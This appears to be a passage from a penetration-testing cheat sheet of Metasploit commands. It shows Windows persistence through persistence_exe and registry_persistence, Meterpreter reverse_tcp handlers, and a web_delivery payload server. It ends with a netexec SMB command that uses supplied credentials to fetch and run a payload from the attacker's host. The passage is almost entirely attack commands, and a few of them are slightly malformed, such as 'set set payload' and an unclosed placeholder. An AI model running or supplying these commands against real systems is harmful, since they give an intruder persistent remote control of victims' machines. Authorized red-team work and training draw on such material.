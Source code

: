#### Persistence through Persistence_exe

```console
msf6 > use post/windows/manage/persistence_exe
msf6 > set session 1
msf6 > set rexepath /root/payload.exe
msf6 > exploit
```

```console
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost <LHOST>
msf6 > set lport 1234
msf6 > exploit
```

#### Persistence through Registry

```console
msf6 > use exploit/windows/local/registry_persistence 
msf6 > set session 1
msf6 > set lport 7654
msf6 > exploit
```

```console
msf6 > use exploit/multi/handler
msf6 > set set payload windows/meterpreter/reverse_tcp
msf6 > set lhost <LHOST>
msf6 > set lport 7654
msf6 > exploit
```

### Exploit Handling

#### web_delivery Handler

```console
msf6 > use exploit/multi/script/web_delivery
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set LHOST <LHOST>
msf6 exploit(multi/script/web_delivery) > set SRVHOST <LPORT
msf6 exploit(multi/script/web_delivery) > set SRVPORT 80
msf6 exploit(multi/script/web_delivery) > set target 2
msf6 exploit(multi/script/web_delivery) > set LPORT 445
msf6 exploit(multi/script/web_delivery) > run -j
```

#### Example Execution

```console
$ netexec smb <RHOST> -u <USERNAME> -p <PASSWORD> --local-auth -M web_delivery -o URL=http://<LHOST>/j0wUlo2EX
```
